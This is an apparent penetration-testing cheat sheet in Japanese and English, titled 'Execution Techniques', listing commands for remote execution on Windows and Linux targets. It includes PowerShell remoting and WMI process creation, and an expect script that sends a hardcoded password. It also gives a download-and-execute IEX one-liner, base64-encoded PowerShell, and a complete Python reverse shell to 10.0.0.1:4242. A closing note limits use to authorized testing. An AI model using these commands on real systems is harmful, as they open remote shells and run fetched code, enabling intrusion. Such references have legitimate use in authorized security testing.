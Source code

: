 # Execution Techniques

## コマンドライン実行

### Windows コマンド実行
```powershell
# PowerShell リモート実行
Enter-PSSession -ComputerName <target>
Invoke-Command -ComputerName <target> -ScriptBlock {whoami}

# WMI を使用した実行
wmic /node:<target> process call create "cmd.exe /c command"
```

### Linux コマンド実行
```bash
# SSH 経由での実行
ssh user@target 'command'

# expect を使用した自動化
expect -c '
spawn ssh user@target
expect "password:"
send "password\r"
expect "$ "
send "command\r"
'
```

## スクリプト実行

### PowerShell スクリプト
```powershell
# メモリ上での実行
IEX (New-Object Net.WebClient).DownloadString('http://server/script.ps1')

# Base64 エンコードされたコマンド
powershell -enc <base64-encoded-command>
```

### Python スクリプト実行
```python
# リバースシェル
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

## 注意事項
- これらのコマンドは、許可された環境でのテストにのみ使用してください
- システムに重大な影響を与える可能性があります
- 実行前に必ずコマンドの内容を確認してください 